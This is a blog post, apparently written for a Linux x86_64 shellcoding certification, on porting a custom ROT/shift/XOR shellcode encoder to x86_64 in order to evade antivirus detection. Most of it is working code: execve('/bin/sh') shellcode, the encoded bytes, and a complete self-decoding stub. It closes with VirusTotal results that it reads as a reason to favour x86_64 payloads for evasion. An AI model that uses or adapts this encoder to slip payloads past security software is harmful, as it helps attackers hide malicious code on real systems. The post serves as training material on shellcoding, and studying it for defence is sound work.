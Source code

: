 Introduction
------------
Encoding schemes are used to transform data in a way that makes it consumable by different systems in a safe manner. In this post we’ll look at how we can bypass AVs by ab(using) this scheme to encode otherwise detectable shellcode.

Shellcode
---------
We will be porting an [x86 encoder](https://www.exploit-db.com/exploits/43890) I made a while back to make it work `x86_64` architecture. Please refer to my SLAE32 blog series for more details on the encoder itself. I’ve also made a quick `execve()` shellcode to test with.

```nasm
section .text

global _start

_start:
 	push rax
	cdq
	push rdx
	pop rsi
	mov rbx,'/bin//sh'
	push rbx
	push rsp
	pop rdi
	mov al, 59
	syscall
```

Will reuse the `x86` encoder [script](https://github.com/ihack4falafel/SLAE64/blob/master/Assignment%204/Encoder.py) developed during the SLAE32 blog series, all we need is feed it our newly created `/bin/sh` shellcode and generate an encoded version of it.

```sh
➜  A4 ./Encoder.py 13 1 1337
Original Shellcode: 0x50, 0x99, 0x52, 0x5e, 0x48, 0xbb, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x2f, 0x73, 0x68, 0x53, 0x54, 0x5f, 0xb0, 0x3b, 0x0f, 0x05, 
Encoded Shellcode : 0x583, 0x475, 0x587, 0x5ef, 0x593, 0x4a9, 0x541, 0x5e7, 0x5d5, 0x5cf, 0x541, 0x541, 0x439, 0x5d3, 0x5f9, 0x5fb, 0x5e1, 0x443, 0x5a9, 0x501, 0x51d, 0x539
➜  A4 
```

Here’s `Decoder.asm` ported to `x86_64` including previously generated encoded shellcode.

```nasm
global _start

section .text

_start:
    ;
    ; [ROT-N + SHL-N + XOR-N] encoded execve() code block
    ;
    jmp short call_decoder       ; jump to call_decoder to save encoded_shellcode pointer to RSI
	
decoder:

    pop rsi                      ; store encoded_shellcode pointer in RSI
    push rsi   		             ; push encoded_shellcode pointer to stack for later execution
    mov rdi, rsi                 ; move encoded_shellcode pointer to RDI

decode:
    ;
    ; note: 1) Make sure ROT, SHR, and XOR here match your encoder.py input.
    ;       2) Hence we're limited by the size of encoded_shellcode (word),
    ;          SHR is limited to <1-8> bits. Feel free to upgrade size to DW 
    ;          to allow up to 16-bits shift if need be.
    ;
    mov ax, [rsi]                ; move current word from encoded_shellcode to AX
    xor ax, 0x539                ; XOR encoded_shellcode with 1337, one word at a time  
    jz decoded_shellcode         ; if zero jump to decoded_shellcode
    shr ax, 1                    ; shift encoded_shellcode to right by one bit, one word at a time	
    sub ax, 13                   ; substract 13 from encoded_shellcode, one word at a time
    mov [rdi], al                ; move decoded byte to RDI	
    inc rsi                      ; point to the next encoded_shellcode word
    inc rsi
    inc rdi                      ; point to the next decoded_shellcode byte
    jmp short decode             ; jump to decode and repeat the decoding process for the next word!

decoded_shellcode:
    call [rsp]                   ; execute decoded_shellcode

call_decoder:
    call decoder
    encoded_shellcode: dw 0x583, 0x475, 0x587, 0x5ef, 0x593, 0x4a9, 0x541, 0x5e7, 0x5d5, 0x5cf, 0x541, 0x541, 0x439, 0x5d3, 0x5f9, 0x5fb, 0x5e1, 0x443, 0x5a9, 0x501, 0x51d, 0x539
```

Let’s run it.

![](/assets/images/ROT-N_Shift-N_XOR-N_Shellcode_Encoder_Linux_x86_64/EncoderDemo.gif)

Out of curiosity, I decided to compare my `x86` encoded shellcode VT results (taken at the time the original x86 encoder was created) with x86_64 one and I found the results quite interesting.

![x86 VT Results](/assets/images/ROT-N_Shift-N_XOR-N_Shellcode_Encoder_Linux_x86_64/Screen-Shot-2018-07-21-at-3.45.33-PM.png)


![x86_64 VT Results](/assets/images/ROT-N_Shift-N_XOR-N_Shellcode_Encoder_Linux_x86_64/Screen-Shot-2018-07-21-at-3.46.08-PM.png)

Closing Thoughts
----------------
The VT results clearly shows that AV vendors don’t care much for `x86_64` shellcode at this point in time which is another good reason why we should use it more. All of the above code are available on my [github](https://github.com/ihack4falafel/SLAE64/tree/master/Assignment%204). Feel free to contact me for questions via Twitter [@ihack4falafel](https://twitter.com/ihack4falafel).

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certiﬁcation:

[http://www.securitytube-training.com/online-courses/x8664-assembly-and-shellcoding-on-linux/index.html](http://www.securitytube-training.com/online-courses/x8664-assembly-and-shellcoding-on-linux/index.html)

Student ID: SLAE64–1579

